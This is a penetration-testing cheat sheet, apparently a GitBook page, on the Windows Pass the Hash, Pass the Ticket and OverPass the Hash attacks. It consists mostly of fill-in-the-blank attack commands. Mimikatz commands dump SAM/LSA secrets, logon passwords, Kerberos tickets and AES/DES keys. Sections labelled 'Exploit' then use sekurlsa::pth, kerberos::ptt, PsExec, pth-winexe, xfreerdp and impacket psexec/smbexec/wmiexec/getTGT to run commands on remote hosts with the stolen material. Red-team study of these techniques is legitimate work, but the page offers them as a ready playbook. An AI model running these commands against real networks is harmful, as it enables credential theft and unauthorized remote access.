 # Pass The Hash

## Pass the Hash

Use the hash to login in another machine as a local user without knowing its password. Works because NTLM hashes are static so if a user logs into different machines his hash will remain the same on each host.

* NTLM based
* Requires the SMB port to be reachable on the target
* The user/service must have admin rights on the target machine

```
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Exploit

{% tabs %}
{% tab title="Windows" %}
```javascript
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM or :NT> /run:<cmd>
```
{% endtab %}

{% tab title="Linux" %}
```bash
pth-winexe -U <domain>/<user>%<NTLM> //<target ip> cmd

#impacket
python smbexec.py <user>@<ip> -hashes <NTLM or :NT>
python psexec.py <user>@<ip> -hashes <NTLM or :NT>
python wmiexec.py <user>@<ip> -hashes <NTLM or :NT>

#rdp
xfreerdp /u:Administrator /pth:<ntlm> /d:<domain> /v:<target>
```
{% endtab %}
{% endtabs %}

## Pass the Ticket

Loads a ticket in memory granting the current user access to the remote machine/service within the context of the current session.

* Kerberos based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited even if the current user/service is not an admin on the target machine

```
sekurlsa::tickets /export
```

### Exploit

{% tabs %}
{% tab title="Windows" %}
```javascript
kerberos::ptt <.krbi file>

//in terminal
.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```
{% endtab %}

{% tab title="Linux" %}
```bash
#convert and store the ticket file for impacket use
python ticket_converter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=<.ccache file path>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```
{% endtab %}
{% endtabs %}

## OverPass the Hash / Pass the Key

Obtain a TGT ticket by providing a valid NTLM hash, AES keys, DES keys or password. The obtained TGT token can then be used to access other machines.

* Kerberos Based
* Alternative to PTH if NTLM authentication is disabled
* Can be exploited starting from NTLM, secret keys or password (see [password to NTLM](local-credentials/#ntlm-from-password))
* Can be exploited even if the current user/service is not an admin on the target machine
* Requests a new TGT, as such the attack is not limited to the tickets stored in memory

```
#DES, AES128 and AES256 keys
sekurlsa::ekeys

#NTLM
lsadump::sam 
lsadump::lsa /inject /name:<user>
sekurlsa::logonpasswords
```

### Exploit

{% tabs %}
{% tab title="Windows" %}
```javascript
#Run command
sekurlsa::pth /user:<user> /domain:<domain> /aes128:<hash> /run:"<cmd>"    #from AES128 key
sekurlsa::pth /user:<user> /domain:<domain> /aes256:<hash> /run:"<cmd>"    #from AES256 key
sekurlsa::pth /user:<user> /domain:<domain> /des:<hash> /run:"<cmd>"       #from DES key
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash> /run:"<cmd>"      #from NTLM
sekurlsa::pth /user:<user> /domain:<domain> /rc4:<NT hash> /run:"<cmd>"    #from NT

#Pivoting
klist #verify the creation of the ticket

.\PsExec.exe -accepteula \\<target host> <cmd>
dir \\<host>\c$
```
{% endtab %}

{% tab title="Linux" %}
```bash
python getTGT.py <domain_name>/<user_name> -hashes <NTLM hash>
python getTGT.py <domain_name>/<user_name> -hashes :<NT hash>
python getTGT.py <domain_name>/<user_name> -aesKey <AES>
python getTGT.py <domain_name>/<user_name>:<password>

export KRB5CCNAME=<ccache file>

#start remote connection
python psexec.py <domain>/<user>@<host> -k -no-pass
python smbexec.py <domain>/<user>@<host> -k -no-pass
python wmiexec.py <domain>/<user>@<host> -k -no-pass
```
{% endtab %}
{% endtabs %}
